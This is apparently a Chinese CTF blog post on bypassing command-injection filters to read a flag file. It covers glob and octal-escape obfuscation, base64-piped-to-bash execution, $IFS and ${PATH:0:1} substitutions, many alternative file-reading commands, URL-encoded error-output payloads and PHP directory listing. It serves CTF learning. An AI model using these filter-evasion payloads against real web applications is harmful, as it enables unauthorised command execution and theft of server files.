## 前言

之前一直想总结总结，这次正好开个文章谈谈CTF里读取文件绕过的各种技巧。首先，在CTF里我们最想执行的命令自然就是cat /flag，所以这就来了一个问题，如何读取文件。读取文件的命令千奇百怪，但我们首先不讲怎么读文件，讲讲怎么在关键词被过滤的情况下读取flag。

## 文件名被过滤怎么绕过

### *通配文件

linux里可以用f*指代任何以f开头的文件，就像正则匹配，所以我们可以用cat /f*获得flag



### ?匹配文件名

这个自然是最常见的了，比如我们知道flag的名字就是flag，但是可能flag这个字符串被过滤了，我们就可以用?匹配被ban的字符，用cat /f???获得flag



当然，前面不加这个f可以吗，也是可以的，就是容易被干扰



### 正则匹配

linux里可以用[9-q]这种形式匹配ascii码在9到q之间的字符，自然cat /[9-q][9-q][9-q][9-q]就等效于cat /flag了



### 分割文件名

linux里，ca”t、ca\t、ca””t和cat是等效的，所以我们可以用这种方式绕过关键词过滤：



除此之外，还可以使用**$@**绕过关键词过滤


还有一种好用的方法，就是用中间变量进行替换：

```
a=f&&b=lag&&c=ca&&d=t&&$IFS$9$c$d$IFS$9/$a$b
```



原句其实也就是

```
a=f&&b=lag&&c=ca&&d=t&&$c$d /$a$b
```

### inode号

linux里可以通过inode号索引某个文件，举个例子：

这里我们先通过ls -i /获取到根目录下所有文件的inode号



得到flag的inode号为787511，我们就可以通过find / -inum 787511获取该文件的路径



因此，我们可以这样获取flag：

```
cat `find / -inum 787511`
```



### 转进制

我们可以把flag转成八进制，变成$’\146\154\141\147’，然后用cat /$’\146\154\141\147’即可



我们在网页传的时候建议编码一下，因为$在php中有特殊含义，可能会产生干扰



当然，如果$没被ban的话也没限制命令长度的话，直接无字母数字构造命令都行，具体可以看看我之前写的[利用shell脚本变量构造无字母数字命令](https://xz.aliyun.com/t/12242)以及[CTFshow-周末大挑战官方wp](https://ctf-show.feishu.cn/docx/EH72dMi3hoBtLJxDydjcIVcQnSc)

### 利用管道符

```
echo "Y2F0IC9mKg==" | base64 -d|bash
```



如果对应环境有其他编码也可以换其他冷门点的编码

## /被过滤怎么绕过

linux里echo ${PATH}可以获得当前路径：



所以很显然，我只要取第一个字符那就是/了：



随着这个逻辑可以代替${PATH:0:1}的使用方法也挺多的，比如${PATH:4:1}也代表/，当我们查看linux的环境变量，其实可以发现很多替代方法：



比如${PWD:0:1}、${HOME:0:1}、${SHELL:0:1}等等

## 空格被过滤怎么绕过

```
<
$IFS
${IFS}
$IFS$9
{cat,/flag}
```



这里只讲了一些最常见的bypass技巧，不是很深入，本文主要是讲一些读取文件的方法的。

## 各种读取文件的方法

### cat

首先是最常见的，那就是cat了，用于连接文件并打印到标准输出设备上，用法为：

```
cat /f*
```

不需要完整文件名



### tac

用于将文件以行为单位的反序输出，用法为：

```
tac /f*
```

不需要完整文件名



### more/bzmore

类似cat命令，会以一页一页的显示，方便使用者逐页阅读，用法为：

```
more /f* 
bzmore /f*
```

不需要完整文件名



### less/bzless

作用与more类似,都用来浏览文本文件中的内容,不同之处在于,使用 more 命令浏览文件内容时,只能不断向后翻看,而使用 less 命令浏览,既可以向后翻看,也可以向前看。用法为：

```
less /f*
bzless /f*
```

不需要完整文件名



### head

head 命令可用于查看文件的开头部分的内容，有一个常用的参数 -n 用于显示行数，默认为 10，即显示 10 行的内容。用法为：

```
head /f*
```

不需要完整文件名



### tail

作用和head相似，但它默认显示最后 10 行。用法为：

```
tail /f*
```

不需要完整文件名



### nl

可以为输出列加上编号。用法为：

```
nl /f*
```

不需要完整文件名



### sed

Sed 代表流编辑器Stream Editor，常用于 Linux 中基本的文本处理.用法为：

```
sed p /f*
```

不需要完整文件名



### sort

用于将文本文件内容加以排序。用法为：

```
sort p /f*
```

不需要完整文件名



### uniq

删除文件中的连续重复行 如果你在不使用任何参数的情况下使用 uniq 命令,它将删除所有连续的重复行,只显示唯一的行。用法为：

```
uniq /f*
```

不需要完整文件名



### rev

反转一个或多个文件的行。用法为：

```
rev /f*
```

不需要完整文件名，获得的是逆序的flag



当然，我们可以使用rev /f* | rev获得正序的flag:



### od

od(Octal Dump)命令用于将指定文件内容以八进制、十进制、十六进制、浮点格式或 ASCII 编码字符方式显示,系统默认的显示方式是八进制。用法为：

```
od -c /f*
```

不需要完整文件名



你可能会奇怪中间那个0000020是啥，我们可以看到这个命令在linux里的运行结果：



左边一列其实是它的地址，记得把地址0000020删了就是文件内容了，当然直接f12也可以看到linux里那样的运行结果：



### vim/vi

这俩都是Linux里的文件编辑器，我们在网页直接用system(“vim /f*”);虽然不会进入编辑模式但还是可以看到里面的内容。用法为:

```
vim /f* 
vi /f*
```

不需要完整文件名



### man

man 命令是 Linux 下的帮助指令，通过 man 指令可以查看 Linux 中的指令帮助、配置文件帮助和编程帮助等信息，类似于vim/vi，直接对文本运行可以看到文本内容。用法为：

```
man /f*
```

不需要完整文件名



### paste

使用paste命令可以将每个指定*文件*里的每一行整合到对应一行里写到标准输出,之间用制表符分隔。用法为：

```
paste /f*
```

不需要完整文件名



### grep

查找文件里符合条件的字符串。用法为：

```
grep { /f*
```

不需要完整文件名



### file

查看文件信息或类型。用法为：

```
file -f /f*
```

不需要完整文件名



### dd

用于读取、转换并输出数据。用法为：

```
dd if=/flag
```

需要完整文件名



### date

使用指定格式显示时间，或者设置系统时间，有时用于suid提权。用法为：

```
date -f /f*
```

不需要完整文件名

但他本质上是一种报错读取，直接system传值是没回显的，我们要读取报错才行：

```
a=$(date -f /f* 2>&1);echo $a;
```

然后再编一下码：

```
a%3D%24(date%20-f%20%2Ff*%202%3E%261)%3Becho%20%24a%3B
```



### 报错读取

linux里可以用点号执行shell脚本，同样，我们也可以用这种方法报错读取文件内容，前提是你的用户组有**读取文件的权限**：

```
a=$(. /f* 2>&1);echo $a;   #a%3D%24(.%20%2Ff*%202%3E%261)%3Becho%20%24a%3B
```



如果你的用户组有**执行文件的权限**，你可以直接/f*获得文件内容：

```
a=$(/f* 2>&1);echo $a;  #a%3D%24(%2Ff*%202%3E%261)%3Becho%20%24a%3B
```



### diff

用于比较文件的内容，我们可以把想读取的文件内容和一个已知的文件进行比较，获得差集也就是我们想要的内容了，如：

```
diff /f* /etc/passwd
```

不需要完整文件名



### xxd

它能将一个给定文件或标准输入转换为十六进制形式,也能将十六进制转换回二进制形式，输出形式有点像od -c如：

```
xxd /f*
```

不需要完整文件名





### cp

最近比赛遇到一种情况，就是直接

```
cp /flag .
```

把flag复制到当前目录，然后直接访问/flag也能拿flag，或者

```
cp /f* /dev/stdout 
```

输出到标准输出中



## php文件读取相关函数

## 补充读取目录

```php
print_r(glob("*")); // 列当前目录
print_r(glob("/*")); // 列根目录
print_r(scandir("."));
print_r(scandir("/"));
$d=opendir(".");while(false!==($f=readdir($d))){echo"$f\n";}
$d=dir(".");while(false!==($f=$d->read())){echo$f."\n";}
$a=glob("/*");foreach($a as $value){echo $value."   ";}
